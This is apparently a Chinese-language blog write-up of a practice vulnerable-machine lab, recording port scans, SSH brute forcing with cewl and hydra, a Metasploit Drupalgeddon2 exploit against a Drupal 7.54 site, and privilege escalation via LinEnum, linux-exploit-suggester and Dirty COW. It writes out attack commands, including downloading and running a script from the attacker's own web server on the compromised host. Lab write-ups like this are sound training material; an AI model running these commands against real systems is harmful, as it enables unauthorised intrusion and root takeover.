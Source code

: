 ```yaml
---
categories:
- training
tags:
- training
---
```

[参考资料：linux 提权脚本](https://www.freebuf.com/sectool/121847.html)

---

info
22/tcp open  ssh OpenSSH 6.6.1p1 Ubuntu
80/tcp open  http
OS details: Linux 3.2 - 4.8

关于80端口，肯定有防火墙之类的东东==
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/1.PNG)

dirbuster、nikto、nmap、unicornscan找不到任何信息。除了浏览器直接访问80端口，返回了一个页面，It's easy，个鬼啊！！！

最神奇的是只要burp一挂代理，目标机就没有响应了，一关代理，就返回It's easy的页面。感觉好像被靶机作者调戏了。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/12.PNG)
em...应该是连接80端口，就会发送回这个字符画。

我不想爆破ssh了，看wp吧==
看大佬表演。。
## 思路一（爆破ssh）
用nmap -p- -Pn -vv ip 扫描将近一个小时，65535个端口，可以发现1898端口开放。
根据这个端口生成一个字典，hydra爆破即可获得shell。
dirtycow exp运行一下，即可得到root权限。

cewl -w dict.txt http://192.168.11.131:1898/?q=node/1
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.133 ssh

好无聊，爆破什么的没有美感~~

## 思路二（cms漏洞命令执行）
#### 1898-http
该端口开放http服务，页面下方显示drupal
robots.txt提示了，`http://ip:1898/CHANGELOG.txt`
更新版本为Drupal 7.54

#### 查找可用exploit
Drupal < 7.58 - 'Drupalgeddon3'  Remote Code
```
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOST ip
set RPORT 1898
run
shell
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/2.PNG)

#### msf导入载荷
在用metasploit找不到可用漏洞的模块情况下，可以在`https://www.exploit‐db.com/` 上搜索并保
存。
然后在/root/.msf4/modules/exploits/ 目录下新建一个自定义目录，并在该目录下存放你的msf
模块。
例如，新建/root/.msf4/modules/exploits/new ,并在该目录下存放1234.rb模块。

#### 寻找可用exp的bash脚本
[LinEnum.sh](https://github.com/rebootuser/LinEnum)，用这个提权脚本搜集可用信息。
```
kali执行：
#python -m SimpleHTTPServer
----------------
反弹shell执行：
cd /tmp
wget http://192.168.1.128:8000/LinEnum.sh
chmod a+x LinEnum.sh
./LinEnum.sh > log.txt
```
运行了提权检查脚本以后，发现输出实在太多了，而且多数是没有什么意义的输出，例如error,xxxx

如果是我来设计提权脚本，我尝试了99种，失败了98种提权尝试，那么我会输出一种可能的提权方式，而不是98失败+1成功。

---

[linux-exploit-suggester.sh](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

dirty cow,exp :https://www.exploit-db.com/download/40847.cpp
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/3.PNG)

